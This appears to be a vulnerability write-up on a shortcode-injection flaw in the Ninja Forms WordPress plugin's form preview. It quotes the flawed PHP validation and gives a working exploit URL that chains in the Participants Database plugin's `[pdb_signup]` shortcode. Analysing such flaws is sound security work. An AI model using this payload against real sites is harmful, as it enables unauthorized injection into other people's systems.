 *   **Vulnerable Part:** The `nf_preview_form` GET parameter is sanitized but not properly validated to prevent exploitation. It’s passed directly into the `_form_id` variable, allowing potential misuse.

**2. The** **`the_content`** **Function:**
This function is called when the page content is being loaded. It attempts to validate the form ID but contains a logic flaw that allows an attacker to bypass the checks and inject arbitrary shortcodes.

```php
function the_content() {
    if ( ! is_user_logged_in() ) return esc_html__( 'You must be logged in to preview a form.', 'ninja-forms' );

    // Checks if the `_form_id` is a valid form ID
    $tmp_id_test = explode( '-', $this->_form_id );

    // Bypassable checks
    if ( 1 === count( $tmp_id_test) && ! is_numeric( $tmp_id_test[ 0 ] ) ) {
        return esc_html__( 'You must provide a valid form ID.', 'ninja-forms' );
    }
    elseif ( 2 === count( $tmp_id_test ) && ('tmp' != $tmp_id_test[ 0 ] || ! is_numeric( $tmp_id_test[ 1 ] ) ) ) {
        return esc_html__( 'You must provide a valid form ID.', 'ninja-forms' );
    }

    // Vulnerable: Renders shortcode with injected content
    return do_shortcode( "[nf_preview id='{$this->_form_id}']" );
}

```

*   **Key Part:** The function processes the `_form_id` and passes it directly to the `do_shortcode` function, which renders WordPress shortcodes. Due to flawed validation, an attacker can inject additional shortcodes by manipulating the `_form_id`.

To exploit this vulnerability, you can inject additional shortcodes by manipulating the `_form_id` in the GET request. Here’s how you can bypass the validation and inject malicious shortcodes.

**Exploit Example:**

You can bypass the form ID validation by adding a third `-` character to the `_form_id`, which isn't properly accounted for in the checks. This allows you to inject a shortcode like `[pdb_signup]` (used by the vulnerable Participants Database plugin).

Example payload:

```shell
http://<target-url>/?nf_preview_form=tmp-1-'][pdb_signup]

```

**Explanation:**

*   The injected `_form_id` is set to `tmp-1-'][pdb_signup]`. The validation only checks for 1 or 2 elements split by the `-` character, but you can bypass this by using 3 elements.

